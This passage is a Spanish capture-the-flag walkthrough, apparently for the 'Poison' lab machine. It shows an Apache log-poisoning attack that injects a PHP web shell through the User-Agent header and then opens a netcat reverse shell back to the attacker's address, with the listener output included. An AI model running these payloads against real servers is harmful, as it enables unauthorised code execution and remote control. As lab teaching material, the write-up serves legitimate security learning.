 He buscado en que `rutas` se alojan los `logs` de `apache` para ver si la máquina es vulnerable a un `log poisoning` [https://blog.codeasite.com/how-do-i-find-apache-http-server-log-files/](https://blog.codeasite.com/how-do-i-find-apache-http-server-log-files/), hay que tener mucho `cuidado` para no `corromper` el `fichero` de `logs` y que sea vuelva `inaccesible`. Lo primero que hay que hacerle una `petición` a un recurso de la `web`, por ejemplo `http://10.129.252.206/cmd` y `capturar` la `petición` con `Burpsuite` e introducir en el campo `User-Agent` este `payload`

![](/assets/img/Poison/image_5.png)

```
<?php system($_GET['cmd']); ?>
```

Si nos a este ruta `view-source:http://10.129.252.206/browse.php?file=/var/log/httpd-access.log&cmd=whoami` podemos ver como el comando se ha ejecutado correctamente

![](/assets/img/Poison/image_6.png)

Vamos a mandarnos una `reverse shell` a nuestro equipo, para ello nos ponemos en `escucha` con `netcat` por el `puerto 4444`

```
# nc -nlvp 4444
```

Vamos a usar este `payload` para `mandarnos` una `reverse shell` a nuestro equipo `view-source:http://10.129.252.206/browse.php?file=/var/log/httpd-access.log&cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>%261|nc 10.10.16.35 4444 >/tmp/f`

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>%261|nc 10.10.16.35 4444 >/tmp/f
```

`Obtenemos` una `shell` en nuestro equipo

```
# nc -nlvp 4444             
listening on [any] 4444 ...
connect to [10.10.16.35] from (UNKNOWN) [10.129.252.206] 18527
sh: can't access tty; job control turned off
$ whoami
www
```

Nos `convertimos` en el usuario `charix`
